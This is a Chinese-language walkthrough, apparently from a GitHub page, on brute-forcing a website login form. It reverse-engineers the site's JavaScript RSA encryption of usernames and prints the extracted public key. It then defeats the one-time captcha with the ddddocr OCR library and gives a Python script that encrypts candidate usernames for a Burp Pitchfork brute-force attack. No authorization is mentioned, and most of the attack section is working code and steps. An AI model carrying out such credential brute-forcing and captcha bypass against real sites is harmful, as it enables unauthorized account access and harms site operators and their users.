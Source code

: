 ## 站点：


![image](https://github.com/user-attachments/assets/7584c85d-3116-49e6-9bf2-ee5b44dcae49)


是一个登录框，需要输入账号、密码、验证码

抓包看看，携带3个参数`username`、`password`、`verifycode`

其中对`username`和`password`进行了加密，而且经过测试，`验证码一次一用`，所以

我们有两个任务：

1. **分析加密username和password的加密逻辑**

2. **识别验证码**

![image](https://github.com/user-attachments/assets/dc886099-bce6-415b-a113-4a134dc41ce8)



## 分析加密逻辑

Fn+F12 ：全局搜索`password`、`username`、`encrypt`

尝试打几个断点，查看断点处

`_jgusername`接收用户名，`_jgpassword`接收密码，`_jgverifycode`接收验证码

![image](https://github.com/user-attachments/assets/6329ef09-e9df-49d9-8b77-ab074a06f8e3)


加密逻辑在 `encrypt.setPublicKey(publicKey);` 实现

可以看到有`publicKey`，应该是`公钥`，全局搜索找到`publicKey`

```SQL
var publicKey = "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCdsMi0TpWkPpVlw4bbyQMXg+Yg"
    + "B8uBSGQsO/pFUFmFFdMyjK5oyIIBFDaW6SuzCzmW5QfX4BsQ83a3QQwhvT6GpojE"
    + "+yyWHfknx20FecrBVHn2OOhZkQxCreKFm4zb+NoFuRQ/Tbdj7TimIyXWbgYF6olf"
    + "wW4wKSpZvL6PHsyslQIDAQAB";
```


![image](https://github.com/user-attachments/assets/8d390fe8-7063-415b-a77a-c3898bd1b930)


进入，开始对**username**，进行跟踪

此处是对函数加密的封装

注意1：`l(...)` 是 **Base64 编码器**，返回的结果是**base64编码**

```SQL
JSEncrypt 里 l() 通常是：

function l(hexString) {
    return btoa(hex2bin(hexString));
}
this.getKey().encrypt(t) → 得到 HEX

l(hex) → 转成 Base64
```


![image](https://github.com/user-attachments/assets/704ce064-798c-4650-af2c-4e6e660a58c3)

![image](https://github.com/user-attachments/assets/17ad6ca2-720b-4313-b851-94ea0d6392ec)




先进行密钥生成 `this.getKey()` ，这块不重要直接跳过，下面进行加密逻辑 `encrypt(t)`，`t是明文账号`，也就是上面的`_jgusername`

**加密方式：**

3. **RSA加密**

4. **手动实现了 PKCS#1 v1.5 填充**

总结：

这段代码实际上做的事情是标准的 **RSA/PKCS#1 v1.5 加密流程**，步骤包括：

✅ 计算 key 大小

✅ UTF-8 编码消息

✅ 填充非零随机字节

✅ 添加固定头 `00 02`

✅ RSA 公钥加密

✅ 返回固定长度 hex 编码的密文


```SQL
t.prototype.encrypt = function(t) {
                    var e = this.n.bitLength() + 7 >> 3
                      , i = function(t, e) {
                        if (e < t.length + 11)
                            return console.error("Message too long for RSA"),
                            null;
                        for (var i = [], r = t.length - 1; r >= 0 && e > 0; ) {
                            var n = t.charCodeAt(r--);
                            n < 128 ? i[--e] = n : n > 127 && n < 2048 ? (i[--e] = 63 & n | 128,
                            i[--e] = n >> 6 | 192) : (i[--e] = 63 & n | 128,
                            i[--e] = n >> 6 & 63 | 128,
                            i[--e] = n >> 12 | 224)
                        }
                        i[--e] = 0;
                        for (var s = new J, o = []; e > 2; ) {
                            for (o[0] = 0; 0 == o[0]; )
                                s.nextBytes(o);
                            i[--e] = o[0]
                        }
                        return i[--e] = 2,
                        i[--e] = 0,
                        new B(i)
                    }(t, e);
                    if (null == i)
                        return null;
                    var r = this.doPublic(i);
                    if (null == r)
                        return null;
                    for (var n = r.toString(16), s = n.length, o = 0; o < 2 * e - s; o++)
                        n = "0" + n;
                    return n
                }
                ,
```


拿到hex的密文后，进入`1()`

```SQL
1()：不是标准的base64，而是自定义的 Base64 编码
```


![image](https://github.com/user-attachments/assets/6a63a496-5261-4e53-8e2f-d62d159a0ec4)


账号加密完成

![image](https://github.com/user-attachments/assets/4e97c393-f0ac-490d-80e4-4be3d5cea511)

![image](https://github.com/user-attachments/assets/4b81297e-d7e0-46c9-afce-8ba72d1d4483)

接下来跟踪密码

可以看到在此处没有进行加密

![image](https://github.com/user-attachments/assets/c08e12f6-d269-4cba-8b55-c76c5425b96a)


密码暂时没有跟踪到



## 验证码识别

使用`ddddocr`进行识别

找到验证码刷新接口，是图片类型的包

此处要注意勾选图片

![image](https://github.com/user-attachments/assets/2239d8fe-6597-467a-96a0-84b46c0d15e2)

![image](https://github.com/user-attachments/assets/91b84b52-612c-4d6e-91e0-e8579aac0fcf)

![image](https://github.com/user-attachments/assets/4b057612-7520-4b1e-8f20-276e5773a5e2)



本地启动识别接口，启动脚本

![image](https://github.com/user-attachments/assets/cacc8e5e-ace4-42bb-b2cc-ea6b6ed8bddd)


可以看到识别成功

![image](https://github.com/user-attachments/assets/141de85b-3e71-4739-81df-792e5adce541)




## 实现爆破

因为RSA是非对称加密，只有公钥，没私钥，所以`只能实现加密`，现在分析出了username的加密方式，所以

接下来实现：`固定密码，爆破账号，一次一用的验证码`

写脚本实现账号加密

```SQL
import urllib.parse
from base64 import b64encode
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5

def rsa_encrypt_base64(plaintext: str, public_key_b64: str) -> str:
    pubkey_pem = (
        "-----BEGIN PUBLIC KEY-----\n" +
        public_key_b64 +
        "\n-----END PUBLIC KEY-----"
    )
    key = RSA.import_key(pubkey_pem)
    cipher = PKCS1_v1_5.new(key)
    encrypted_bytes = cipher.encrypt(plaintext.encode('utf-8'))
    encrypted_b64 = b64encode(encrypted_bytes).decode('utf-8')
    return encrypted_b64

def encrypt_and_urlencode(text: str, pubkey: str) -> str:
    encrypted = rsa_encrypt_base64(text, pubkey)
    return urllib.parse.quote(encrypted)

if __name__ == "__main__":
    publicKey = (
        "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCdsMi0TpWkPpVlw4bbyQMXg+Yg"
        "B8uBSGQsO/pFUFmFFdMyjK5oyIIBFDaW6SuzCzmW5QfX4BsQ83a3QQwhvT6GpojE"
        "+yyWHfknx20FecrBVHn2OOhZkQxCreKFm4zb+NoFuRQ/Tbdj7TimIyXWbgYF6olf"
        "wW4wKSpZvL6PHsyslQIDAQAB"
    )

    # 10 个明文用户名
    usernames = [
        "user000001",
        "user000002",
        "user000003",
        "user000004",
        "user000005",
        "user000006",
        "user000007",
        "user000008",
        "user000009",
        "user000010"
    ]

    with open("encrypted_usernames.txt", "w", encoding="utf-8") as f:
        for username in usernames:
            encrypted = encrypt_and_urlencode(username, publicKey)
            f.write(encrypted + "\n")
            print(f"{username} 加密后：{encrypted}")

    print("✅ 加密结果已保存到 encrypted_usernames.txt")

```


本地生成了10个加密后的username

![image](https://github.com/user-attachments/assets/eb96584a-0d46-49da-b4ab-5e712fd5b084)


尝试爆破，选择`Pitchfork攻击`模式，注意因为要识别验证码，所以必须`拉低线程`

![image](https://github.com/user-attachments/assets/37017b74-67ae-4600-99d0-e16609452e5f)


![image](https://github.com/user-attachments/assets/976602b7-aef5-4632-8485-4d9a1b496546)


可以看到爆破结果，验证码识别效果不咋好

![image](https://github.com/user-attachments/assets/e8ee1051-7dc0-41f2-bd4e-4efb5c4b6d1b)


![image](https://github.com/user-attachments/assets/d23294a5-c3f2-4f3c-809c-32d6c00707f3)


